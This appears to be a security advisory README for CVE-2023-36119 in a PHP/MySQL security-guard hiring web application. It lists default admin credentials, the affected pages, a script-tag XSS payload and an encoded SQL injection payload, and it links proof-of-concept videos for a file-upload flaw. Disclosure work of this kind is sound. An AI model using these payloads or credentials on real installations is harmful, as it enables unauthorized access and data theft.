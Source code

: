 
# Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ CVE ID: CVE-2023-36119
+ CVSS 3.1: `AV:L/AC:H/PR:H/UI:R/S:C/C:H/I:H/A:L/E:F/RL:W/RC:R/CR:H/IR:H/AR:M/MAV:L/MAC:H/MPR:H/MUI:R/MS:C/MC:H/MI:H/MA:L`
![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/89238c90-0348-49fc-92ab-d25c2d02a73d)

**Affecr URL**
+ XSS
  + http://localhost/osghs/admin/admin-profile.php --> Admin Name
  + http://localhost/osghs/admin/search.php --> Search Booking
  + http://localhost/osghs/search-request.php -->  Search Booking
  + http://localhost/osghs/admin/view-booking-detail.php?bookingid=XXX 

payload -> <script>alert(1)</script> 

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/44e50c20-6d7f-454e-86ef-13814460ad2b)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/eb1b3b57-ba6e-4d7a-bccc-ad90a017e36a)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/340d324d-ee0a-4119-b4bf-dd0824ec0189)

+ SQL injection

payload -> <@hex_entities>9999&#x53;ELECT * FROM information_schema.tables<@/hex_entities>

+ http://localhost/osghs/admin/search.php

+ POC
  
https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/667cad95-bf9d-4636-9d7b-2145e1a68963

https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/deb3e42b-3a88-4270-b0ee-10c2a70ff1be



+ File Upload Vulnerability


https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/5c58eec7-7567-43d8-be6b-dce327edec9b





